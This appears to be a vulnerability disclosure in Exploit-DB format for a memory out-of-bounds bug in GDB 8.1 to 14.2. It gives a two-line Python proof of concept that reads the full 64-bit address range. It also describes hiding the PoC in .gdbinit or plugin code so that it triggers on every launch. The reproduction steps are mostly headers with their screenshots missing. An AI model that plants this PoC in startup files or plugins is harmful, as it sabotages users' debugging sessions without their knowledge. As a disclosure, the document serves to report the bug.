





## Exploit **GDB 8.1~14.2 memory corruption** 

Google Dork:gdb, memory leak, memory exhausted， memory out-of-bounds.

Date: 2024.4.2

Exploit Author: N1nEmAn

Vendor Homepage: https://www.sourceware.org/gdb

Software Link: https://sourceware.org/pub/gdb/releases/

Version: 8.1~14.2  (currently known, and possibly more)

Tested on: Ubuntu18.02、archlinux-2024

## POC-old

Save as `poc.py` and use `source /path/to/poc.py`.

```py
import gdb
gdb.selected_inferior().read_memory(0, 18446744073709551615)
```
The following is an outdated reproduction. I found that even without loading any binary program, the vulnerability can still be reproduced. If I write 'source /path/to/poc.py' in .gdbinit or even hide it within the plugin code loaded by the gdbinit file, it will cause the vulnerability to be triggered every time gdb is run.

And I will make the following changes below to provide a new reproduction.
## Vulnerability Reproduction

We exploited this in the newest GDB (14.2), and here are the details of my operating system:

```sh
OS: Arch Linux x86_64
Kernel: 6.8.2-zen2-1-zen
Memory: 9998MiB / 27746MiB
CPU: AMD Ryzen 7 6800H with Radeon Graphics
GPU: AMD ATI Radeon 680M
```

### 1.load any binary file



### 2.run it and ctrl+c to stop it



### 3. source poc.py
We can see successful memory out-of-bounds access and corruption.




### 4. in Ubuntu



## POC-new
### just run gdb and source the poc (without debugging anything)


